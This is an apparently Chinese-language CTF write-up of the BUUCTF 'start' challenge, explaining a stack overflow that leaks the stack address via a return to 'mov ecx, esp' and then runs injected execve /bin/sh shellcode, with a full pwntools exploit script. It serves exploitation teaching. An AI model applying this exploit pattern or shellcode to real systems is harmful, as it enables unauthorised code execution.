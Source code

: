 ### Ecx 泄露栈初始地址

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67dd4b4588c538a9b5c2e7ee.png)

没法反编译为伪代码

![](https://pic1.imgdb.cn/item/67dd4b6988c538a9b5c2e7f6.png)

一开始调用 write 函数输出了 let’s start the ctf

4 是write函数的调用号，之后的调用号是 3，调用了 read 函数

我们知道 dl 这个寄存器是控制输入字符的多少的，也就是所我们可以输入 0x3c 个字符

```c
write(1，buf，0x14)
read(0，buf，0x3C)
```

通过最后的 add esp,14h 我们可以知道 esp 距离 ret 的地址 0x14 个字节（内平栈）

![](https://pic1.imgdb.cn/item/67dd504288c538a9b5c2e8c3.png)

也就是我们输入的参数 buf 的大小只有 0x14，但是我们读入了 0x3c，存在溢出漏洞

`0x8048087` 之前栈上压入了 7 个数据，之后 read()、write() 函数调用完后 esp 始终没有变化，直到出现了 `add esp,0x14`

这使得 esp 此时指向第二个压入的数据，也就是 `offset _exit` 的地址

![](https://pic1.imgdb.cn/item/67dd55f688c538a9b5c2edbf.png)

其上面就是第一次压入的数据（栈的地址，就是即将被泄露的栈的地址）

![](https://pic1.imgdb.cn/item/67dd552888c538a9b5c2ecaa.png)

如上，栈第二个地方存的就是第一个被压入的数据，也就是其下面的栈的地址

由于使用的内平栈，没有 ebp，覆盖完 buf 后就是 ret，其实看上方的汇编就知道了

这句 payload 将程序执行流转到了去执行 write 函数

所以当 paylaod 发送时，返回 `0x08048087: mov ecx, esp ; addr` 到这里执行

使 ecx 指向栈顶，此时栈顶就是第一个被压入的数据，存的正是栈的初始地址，可以被泄露

```python
mov_ecx_esp = 0x08048087

payload = b'a' * 0x14 + mov_ecx_esp

p.sendafter(':', payload)
```

![](https://pic1.imgdb.cn/item/67dd521388c538a9b5c2e905.png)

因为第二次执行完 read 之后执行了 `add esp,14h`

此时 esp 指向的就是即将执行的 shellcode 的地址，而 shellcode 的地址正是泄露的 `stack_addr + 0x14`

```python
shellcode = '''
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f6e
push 0x69622f2f
mov ebx,esp
mov al,0xb
int 0x80
'''

shellcode = asm(shellcode)

payload = b'A' * 0x14 + p32(stack_addr + 0x14) + shellcode

p.send(payload)
p.interactive()
```

完整 payload

```python
from pwn import *

p = process('./start')
#p = remote('node5.buuoj.cn',29955)

payload = b'A' * 0x14 + p32(0x8048087)

p.sendafter("Let's start the CTF:",payload)

stack_addr = u32(p.recv(4))

print(hex(stack_addr))
gdb.attach(p)

shellcode = '''
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f6e
push 0x69622f2f
mov ebx,esp
mov al,0xb
int 0x80
'''

shellcode = asm(shellcode)

payload = b'A' * 0x14 + p32(stack_addr + 0x14) + shellcode

p.send(payload)
p.interactive()

```


